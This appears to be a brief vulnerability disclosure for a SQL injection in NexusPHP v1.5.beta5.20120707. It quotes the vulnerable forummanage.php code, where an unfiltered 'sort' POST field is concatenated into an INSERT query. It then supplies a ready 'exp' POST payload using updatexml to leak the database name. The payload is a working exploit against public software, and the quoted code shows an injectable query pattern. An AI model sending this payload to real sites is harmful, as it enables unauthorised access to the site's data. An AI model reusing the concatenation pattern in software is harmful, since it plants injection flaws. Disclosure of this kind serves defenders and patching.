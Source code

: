 ## nexusphp v1.5.beta5.20120707 sql injection

### version: v1.5.beta5.20120707
### Download link:https://sourceforge.net/projects/nexusphp/
#### /nexusphp.v1.5.beta5.20120707/forummanage.php  Line 63

```
elseif ($_POST['action'] == "addforum") {
	$name = ($_POST['name']);
	$desc = ($_POST['desc']);
	if (!$name && !$desc) {
		header("Location: " . get_protocol_prefix() . "$BASEURL/forummanage.php");
		die();
	}
	sql_query("INSERT INTO forums (sort, name,  description, minclassread,  minclasswrite, minclasscreate, forid) VALUES(" . $_POST['sort'] . ", " . sqlesc($_POST['name']). ", " . sqlesc($_POST['desc']). ", " . $_POST['readclass'] . ", " . $_POST['writeclass'] . ", " . $_POST['createclass'] . ", ".sqlesc(($_POST['overforums'])).")") or sqlerr(__FILE__, __LINE__);
```
***$_POST['sort']***   has not been filtered to cause injection
###exp：
```
action=addforum&name=1desc=1&sort=11 or updatexml(1,concat(0x7e,(database())),0)&readclass=1&writeclass=1&createclass=1&overforums=1
```
![Alt text](./001.jpg)

